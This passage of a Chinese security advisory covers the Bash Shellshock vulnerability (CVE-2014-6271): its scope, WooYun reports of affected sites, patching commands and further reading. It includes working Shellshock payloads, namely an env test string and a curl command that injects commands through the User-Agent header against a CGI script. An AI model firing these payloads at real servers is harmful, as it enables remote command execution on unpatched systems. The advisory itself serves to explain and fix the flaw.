 	env -i X='() { (a)=>\' bash -c 'echo date'; cat echo
http cgi远程命令执行

	curl -A "() { :; }; /bin/ls /; uname -a" http://www.aaa.com/bbb.cgi -v

**4、影响范围**

---
“破壳”是一个严重漏洞的别名，在Red Hat、CentOS、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10中均拥有存在CVE-2014-6271（即“破壳”漏洞）漏洞的Bash版本，同时由于Bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用Bash的Unix、Linux、Mac OS X，而针对这些操作系统管理下的数据均存在高危威胁。

此漏洞可能会影响到使用ForceCommand功能的OpenSSH sshd、使用modcgi或modcgid的Apache服务器、DHCP客户端、SMTP服务器等其他使用bash作为解释器的应用。

**5、实际案例**

---
[中国医学科学院病原生物学研究所官网存在破壳漏洞](http://www.wooyun.org/bugs/wooyun-2010-078387)

[华中农业大学-生物信息学中心-下某实验室网站存在破壳漏洞](http://www.wooyun.org/bugs/wooyun-2010-078029)

[CSDN某业务Bash（CVE-2014-6271）漏洞导致系统可被入侵](http://www.wooyun.org/bugs/wooyun-2010-077300)

**6、漏洞修复**

---
安装最新的补丁

在各种GNU/Linux发行版里需要升级：

Debian-based（包括Ubuntu）:

	sudo apt-get update && apt-get upgrade
Gentoo：

	sudo emerge --sync && glsa-check -f affected
OpenSSH:

	加入no-pty

**7、相关资源**

---
[从语法解析角度分析Bash破壳漏洞](http://www.freebuf.com/articles/web/45520.html)

[破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之一](http://www.freebuf.com/news/48331.html)

[破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之二](http://www.freebuf.com/articles/system/48357.html)

[破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之三](http://www.freebuf.com/articles/system/48406.html)

[Bash破壳漏洞（ShellShock）再变身：针对邮件服务器SMTP攻击](http://www.freebuf.com/news/49292.html)

[安全科普：让高大上的Bash破壳漏洞不再难理解（上）](http://www.freebuf.com/articles/system/50065.html)

[安全科普：让高大上的Bash破壳漏洞不再难理解（下）](http://www.freebuf.com/articles/system/50707.html)

[CVE-2014-6271资料汇总](http://drops.wooyun.org/papers/3064)

[Shellshock漏洞回顾与分析测试](http://drops.wooyun.org/papers/3268)